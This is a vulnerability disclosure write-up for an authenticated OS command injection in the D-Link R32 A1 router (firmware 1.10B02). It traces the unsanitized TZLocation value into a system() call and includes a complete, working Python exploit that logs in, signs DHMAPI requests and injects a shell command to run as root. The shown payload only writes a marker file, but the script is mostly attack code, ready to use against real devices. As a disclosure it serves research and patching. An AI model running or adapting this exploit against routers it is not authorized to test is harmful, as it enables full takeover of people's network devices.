







# D-Link R32 A1 firmware 1.10B02: Authenticated command injection in `SetDeviceSettings` via `TZLocation` leading to root RCE

## TARGET

- Vendor: D-Link
- Device: D-Link R32 A1 Wireless Router
- Firmware version: 1.10B02
- Firmware file: `R32A1_FW110B02.bin`
- Firmware SHA-256: `324bf9ad9a5066eed6244bb8b97a45f4ac99835d1f11606208ed6f9092ba7790`

## BUG TYPE

OS Command Injection

## Affected Environment

- Architecture: AArch64 / ARM64, little-endian
- OS: Embedded Linux; firmware kernel module directory `4.4.124`
- Web service: `usr/bin/httpd`, listening on HTTP/HTTPS and running as root
- Vulnerable endpoint: `POST /DHMAPI/`
- Vulnerable action and field: `SetDeviceSettings` / `TZLocation`
- `httpd` Build ID: `8e820bb1f57fad0389a49846795227590a5f6017`

## Abstract

The D-Link R32 A1 router running firmware 1.10B02 contains an authenticated command injection vulnerability in the `SetDeviceSettings` DHMAPI action. The vulnerability occurs while processing the `TZLocation` SOAP field. The handler copies up to 32 bytes of the value into a settings structure but preserves shell metacharacters. It then inserts the value into the unquoted command format `fota -T %s&` and executes it through `system()`.

An attacker with a valid DHMAPI administrator session can use a short payload containing a semicolon to execute an arbitrary command with root privileges. This vulnerability uses the `SetDeviceSettings` handler and the sink at `0x462218`, not the separate `SetTimeSettings` sink at `0x45f124`. Only firmware 1.10B02 on hardware revision A1 was tested.

### Vulnerability Point

The `SetDeviceSettings` action is registered with `auth=1`, so a valid DHMAPI session is required. An unauthenticated negative-control request returned HTTP 401 and created no marker file.



`sub_462650` passes the parsed SOAP parameter array to `sub_462490`. The parser walks the entries, selects `TZLocation`, and retains its original value pointer in `v16`.



At `0x4625d8`, `sub_461E60` is called to convert the field-pointer table into a settings structure. It retrieves the timezone value from offset `0x28` and copies it with:

```c
snprintf(destination + 0x8c, 0x21, "%s", value);
```



**This operation limits the value to 32 bytes plus a null terminator, but it is not shell sanitization.** Characters such as `;`, `>`, and `$()` remain unchanged. The PoC payload is only 26 bytes, so truncation does not prevent exploitation.

At `0x4625ec`, `sub_462490` calls `sub_462000(v19)`, which is the independent sink function for this action.



`sub_462000` reads the timezone pointer from structure offset `0x8c`. The same unsanitized pointer is passed to `write_csman_str(..., 458753, value)` and then used in `_exec_cmd`. At `0x4621fc`, the value is moved into `X5`; `0x462204` selects `fota -T %s&`; and `0x462218` calls `_exec_cmd`.



The escaping call `sub_416AD0` elsewhere in this function belongs to the `DeviceName` event-notifier branch. It is not on the `TZLocation` path to `0x462218` and does not protect this field.



Finally, `libutils.so::_exec_cmd` formats the command into a 1024-byte buffer and reaches `system()` through `pox_system`. A semicolon in the 32-byte value therefore starts a new root shell command.

### PoC

The following complete PoC contains the DHMAPI login, key derivation, request signing, exploit request, and marker verification in one code block. It does not import any local module or require any accompanying script. PyCryptodome is used only for the device's AES-CTR content-signature protocol.

```python
#!/usr/bin/env python3
import argparse
import base64
import hashlib
import hmac
import time
import urllib.error
import urllib.request
import xml.etree.ElementTree as ET
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad

MARKER = "R32_OD"


class NoRedirect(urllib.request.HTTPRedirectHandler):
    def redirect_request(self, req, fp, code, msg, headers, newurl):
        return None


def send(request):
    opener = urllib.request.build_opener(NoRedirect())
    try:
        with opener.open(request, timeout=40) as response:
            return response.status, response.read().decode(errors="replace")
    except urllib.error.HTTPError as exc:
        body = exc.read().decode(errors="replace")
        exc.close()
        return exc.code, body


def digest(key, message):
    return hmac.new(key.encode(), message.encode(), hashlib.sha256).hexdigest().upper()


def envelope(action, fields):
    body = [f"<{action}>"]
    for name, value in fields.items():
        escaped = str(value).replace("&", "&amp;").replace("<", "&lt;")
        body.append(f"<{name}>{escaped}</{name}>")
    body.append(f"</{action}>")
    return ('<?xml version="1.0" encoding="utf-8"?>'
            '<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" '
            'xmlns:xsd="http://www.w3.org/2001/XMLSchema" '
            'xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body>'
            + "".join(body) + "</soap:Body></soap:Envelope>").encode()


def content_signature(body, private_key):
    iv = get_random_bytes(16)
    cipher = AES.new(bytes.fromhex(private_key), AES.MODE_CTR,
                     nonce=b"", initial_value=iv)
    plaintext = pad(hashlib.md5(body).hexdigest().upper().encode(), 16)
    return cipher.encrypt(plaintext).hex().upper() + " " + iv.hex().upper()


class DHMAPI:
    def __init__(self, base):
        self.base = base.rstrip("/")
        self.cookie = None
        self.private_key = "withoutloginkey"

    def call(self, action, fields):
        timestamp = str(int(time.time() * 1000) % 2000000000000)
        headers = {
            "Content-Type": "text/xml; charset=utf-8",
            "Accept": "text/xml",
            "API-ACTION": action,
            "API-AUTH": digest(self.private_key, timestamp + action) + " " + timestamp,
            "Connection": "close",
        }
        if self.cookie:
            headers["Cookie"] = "uid=" + self.cookie
        body = envelope(action, fields)
        if action not in {"Login", "GetDeviceSettings"} and self.private_key != "withoutloginkey":
            headers["API-CONTENT"] = content_signature(body, self.private_key)
        request = urllib.request.Request(
            self.base + "/DHMAPI/", data=body, headers=headers, method="POST"
        )
        status, text = send(request)
        print(f"[*] {action}: HTTP {status}\n{text}")
        return status, text

    def login(self, username, password):
        status, first = self.call("Login", {
            "Action": "request", "Username": username,
            "LoginPassword": "", "Captcha": "",
        })
        if status != 200:
            raise SystemExit("[-] Login challenge failed")
        root = ET.fromstring(first)
        values = {}
        for element in root.iter():
            if element.tag in {"Challenge", "Cookie", "PublicKey", "SaltHash"}:
                values[element.tag] = element.text or ""
        for required in ("Challenge", "Cookie", "PublicKey"):
            if required not in values:
                raise SystemExit(f"[-] Missing login field: {required}")
        self.cookie = values["Cookie"]
        if values.get("SaltHash"):
            derived = hashlib.pbkdf2_hmac(
                "sha256", password.encode(), values["SaltHash"].encode(), 5000, dklen=32
            )
            password = base64.b64encode(derived).decode()
        self.private_key = digest(values["PublicKey"] + password, values["Challenge"])
        status, second = self.call("Login", {
            "Action": "login", "Username": username,
            "LoginPassword": digest(self.private_key, values["Challenge"]), "Captcha": "",
        })
        if status != 200 or "<loginresult>success</loginresult>" not in second.lower():
            raise SystemExit("[-] Login failed")


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("target", nargs="?", default="http://127.0.0.1:10080")
    parser.add_argument("--username", default="Admin")
    parser.add_argument("--password", default="")
    parser.add_argument("--unauth", action="store_true")
    args = parser.parse_args()
    client = DHMAPI(args.target)
    filename = "u" if args.unauth else "d"
    if not args.unauth:
        client.login(args.username, args.password)
    status, _ = client.call("SetDeviceSettings", {
        "DeviceName": "R32",
        "AdminPassword": "",
        "PresentationURL": "",
        "CAPTCHA": "false",
        "ChangePassword": "false",
        "TZLocation": f"x;echo {MARKER} >/tmp/www3/{filename}",
    })
    if args.unauth:
        marker_status, _ = send(urllib.request.Request(client.base + "/" + filename))
        if status == 401 and marker_status == 404:
            print("[+] Negative control passed: HTTP 401 and no marker")
        else:
            raise SystemExit("[-] Unexpected unauthenticated result")
        return
    if status != 200:
        raise SystemExit("[-] Exploit request failed")
    marker_status, body = send(urllib.request.Request(client.base + "/" + filename))
    print(f"[*] Marker: HTTP {marker_status}\n{body}")
    if marker_status == 200 and body.strip() == MARKER:
        print("[+] Authenticated root command execution confirmed")
    else:
        raise SystemExit("[-] Marker was not created")


if __name__ == "__main__":
    main()
```

The injected field is `<TZLocation>x;echo R32_OD >/tmp/www3/d</TZLocation>`. The payload is 26 bytes and fits within the 32-byte field limit. After shell parsing, the command following the semicolon writes the marker to the web root.

### Impact

An attacker with valid administrator credentials or access to an authenticated DHMAPI session can execute arbitrary commands as **root** without a separate privilege-escalation step. This can result in complete compromise of the router's configuration, network traffic, integrity, and availability. Remediating only `SetTimeSettings` does not protect this independent entry point.

### Reproduction

**Prerequisites**

1. Use D-Link R32 A1 firmware 1.10B02 with the original `usr/bin/httpd` described above.
2. Install Python 3 and PyCryptodome: `python3 -m pip install pycryptodome`.
3. Know the administrator credentials for the authorized test device. In the validated QEMU setup, `127.0.0.1:10080` is forwarded to guest port `80`.

**Reproduction Steps**

1. Copy only the complete Python code block above into `poc.py`, then run:

   ```bash
   python3 poc.py http://127.0.0.1:10080 --password 'YOUR_PASSWORD'
   ```

   Omit `--password` if the authorized test device has no administrator password.

2. The script logs in, sends the signed `SetDeviceSettings` request, and reads the marker automatically. Successful reproduction ends with:

   ```text
   [+] Authenticated root command execution confirmed
   ```

**After sending the payload**



The following optional negative control uses a different marker filename, expects HTTP 401, and verifies that no marker is created:

```bash
python3 poc.py http://127.0.0.1:10080 --unauth
```
